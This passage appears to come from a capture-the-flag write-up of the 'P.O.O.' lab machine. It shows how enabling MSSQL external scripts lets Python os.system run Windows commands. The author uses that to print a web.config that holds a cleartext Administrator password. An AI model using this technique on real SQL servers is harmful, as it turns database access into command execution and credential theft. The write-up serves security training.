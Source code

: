 [http://www.nielsberglund.com/2017/04/20/sql-server-2017-python-executing-from-sql/](http://www.nielsberglund.com/2017/04/20/sql-server-2017-python-executing-from-sql/)

First, we need to make sure Python is enabled on the MSSQL server:

```
EXEC sp_configure  'external scripts enabled', 1
RECONFIGURE  WITH OVERRIDE  
```

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_12.png)

Next, let's execute a simple script that'll do a `system()` call and run Windows commands:

![MSSQL](/assets/images/htb-writeup-poo/Screenshot_13.png)

So, the script is running as a different user than `xp_cmdshell` commands, we are now `POO_PUBLIC01`

After looking around the filesystem for a while, we find the local `Administrator` credentials:

```
EXEC sp_execute_external_script
@language =N'Python',
@script= N'import os; os.system("type c:\\inetpub\\wwwroot\\web.config")';
GO 
```

```
STDOUT message(s) from external script: 
C:\PROGRA~1\MICROS~1\MSSQL1~1.POO\MSSQL\EXTENS~1\POO_PUBLIC01\A093E4EB-BBD9-4913-A10A-337EB23B1BBD


STDOUT message(s) from external script: 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap
                fileExtension=".DS_Store"
                mimeType="application/octet-stream"
            />
        </staticContent>
        <!--
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
        -->
    </system.webServer>
</configuration>

Express Edition will continue to be enforced.
```
